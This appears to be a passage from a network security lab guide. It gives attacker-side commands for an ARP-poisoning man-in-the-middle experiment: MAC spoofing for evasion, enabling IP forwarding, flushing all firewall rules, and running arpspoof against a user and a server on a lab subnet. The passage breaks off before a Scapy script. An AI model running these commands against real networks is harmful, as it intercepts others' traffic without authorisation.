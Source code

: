 
#### **Workstation**

*No terminal commands are needed for this device.*

1.  This section focuses on using the GUI-based tool Wireshark for deep packet analysis.
2.  Analysis is performed on captured `.pcap` files or live traffic.

---
---

### **Experiment 3: Man-in-the-Middle Attacks**

---

#### **Attacker: Initial Attack Steps**

```bash
# (Optional) MAC Spoofing for Evasion
# Install macchanger
sudo apt-get install -y macchanger
# Bring the interface down, change MAC, and bring it back up
sudo ip link set eth0 down
sudo macchanger -r eth0
sudo ip link set eth0 up
# Manually re-assign static IP after spoofing
sudo ip address flush dev eth0
sudo ip address add 192.168.10.11/24 dev eth0
sudo ip route add default via 192.168.10.1

# Enable IP Forwarding to allow traffic to pass through your machine
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward

# Flush firewall rules to ensure traffic is not blocked
sudo iptables -F
sudo iptables -X
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT

# --- Automated Attack with arpspoof ---
# Install dsniff suite
sudo apt-get update
sudo apt-get install -y dsniff

# In Terminal 1: Poison the User, telling it you are the Server
sudo arpspoof -i eth0 -t 192.168.10.10 192.168.10.12

# In Terminal 2: Poison the Server, telling it you are the User
sudo arpspoof -i eth0 -t 192.168.10.12 192.168.10.10

# --- Manual Attack with Scapy ---
# Step 1: Gather MAC addresses
# Ping both targets to populate your ARP cache
ping -c 1 192.168.10.10
ping -c 1 192.168.10.12
# Display the ARP cache to find the MAC addresses
arp -a

# Step 2: Prepare and run the Scapy script
# Install dependencies
sudo apt install python3-pip
sudo pip3 install scapy

# Save the following Python code as 'arp_poisoner.py'
```